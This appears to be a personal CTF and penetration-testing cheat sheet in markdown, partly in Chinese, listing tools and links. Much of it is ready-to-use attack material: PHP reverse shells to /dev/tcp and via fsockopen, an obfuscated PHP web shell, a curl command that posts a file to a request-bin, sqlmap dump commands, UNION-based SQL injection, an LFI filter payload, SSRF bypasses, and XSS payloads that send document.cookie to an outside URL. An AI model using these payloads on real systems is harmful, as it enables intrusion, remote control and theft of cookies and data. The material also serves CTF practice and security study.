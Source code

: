 # Tools

## CTF Tools

* [CyberShef](https://gchq.github.io/CyberChef/#input=8J%2BNo/CfjbTwn42m8J%2BMtPCfjaLwn4278J%2BNs/CfjbTwn42l8J%2BNp/CfjaHwn42u8J%2BMsPCfjafwn42y8J%2BNofCfjbDwn42o8J%2BNufCfjZ/wn42i8J%2BNufCfjZ/wn42l8J%2BNrfCfjLDwn4yw8J%2BMsPCfjLDwn4yw8J%2BMsPCfjarwn42p8J%2BNvQo)
* [Hack Tricks](https://book.hacktricks.xyz/tunneling-and-port-forwarding)
* [Command Injection](https://blog.zeddyu.info/2019/01/17/%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C/#%E5%8F%8D%E5%BC%95%E5%8F%B7%EF%BC%88%E9%87%8D%E9%9F%B3%E7%AC%A6%EF%BC%89)

### Web Shell
* https://www.webshell.cc/4422.html

### Reverse Shell
* [Reverse Shell大全](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) 
* [GitHub List Rev](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

### Crypto
* https://blog.csdn.net/qq_38780085/article/details/79305488
* [BrainFuck](https://gist.github.com/maxcountryman/1699708)

## 生活駭客

* [Word 放 Code](http://www.planetb.ca/projects/syntaxHighlighter)
* [Android 螢幕投影](https://github.com/Genymobile/scrcpy)
    * `choco install scrcpy`, `choco install adb`, `scrcpy`
* [Bash Command Search](https://ss64.com/)
* [7z-CLI-用法](https://www.cnblogs.com/sparkdev/p/5598062.html)
    ```bash
    7z.exe a <target> <source: 只能用相對路徑>
    ```
* [PCHunter Tool](https://www.bleepingcomputer.com/download/pc-hunter/)
    * Windows系統訊息查看，輔助殺毒文件
* curl 配 request-bin 傳檔
    ```bash
    (echo -n '{"payload": "'; <file>; echo '"}') | curl -H "Content-Type: application/json" -d @- <requests-bin url>
    ```

## Hacking Trick

### MD5 Collision
* somd5.com
* cmd5.com

## Paid Software Download

* [免費Java - OpenJDK download](https://adoptopenjdk.net/)
* [Patch My PC](https://patchmypc.com/home-updater)

## Shodan
![](https://i.imgur.com/qBAtBQB.png)

## Reverse Shell Upload File

* https://ironhackers.es/en/cheatsheet/transferir-archivos-post-explotacion-cheatsheet


## SQLMAP

### download source

```bash
git clone https://github.com/sqlmapproject/sqlmap
```

### 起手式

```python
python sqlmap.py -o --random-a -u "url" --tamper base64encode -D <DB> -T <TABLE> --dump
```

### 各種參數

- https://xz.aliyun.com/t/3010

```
--dbs
--schema
--batch
-D
-T
--data="<post 參數>"
--random-agent
--tamper base64encode
-technique=U,B --union-cols=number --dbms-mysql
```
### app.any.run

* https://app.any.run/

### 手打

```
union select 1,2,group_concat(schema_name),4 from information_schema.schemata#
```

## PHP

### reverse shell

#### linux
```php
<?=$_="`{{{"^"?<>/";${$_}[_](${$_}[__]);
```

```php
<?php
exec("/bin/bash -c 'bash -i > /dev/tcp/<ip>/<port> 0>&1'");
?>
```

```php
php -r '$sock=fsockopen(<ip>,<port>);exec("/bin/sh -i <&3 >&3 2>&3");'
```

### LFI

```
/?path=php://filter/convert.base64-encode/resource=index.php
```

### SSRF繞過
- `127.0.0.0/8`
- `redirect`
- `http://@127.0.0.1`

```
gethostbyname('127.0.0.1') == '127.0.0.1'
gethostbyname('localhost') == '127.0.0.1'
gethostbyname('localtest.me') == '127.0.0.1'
gethostbyname('@127.0.0.1') == '@127.0.0.1'
```

## XSS

```html
<script>var i=new Image;i.src="<url>/?"+document.cookie;</script>
<svg/onload="document.location='<url>/?'+document.cookie">
```

## 滲透相關，有點東西

* https://ironhackers.es/en/cheatsheet/transferir-archivos-post-explotacion-cheatsheet/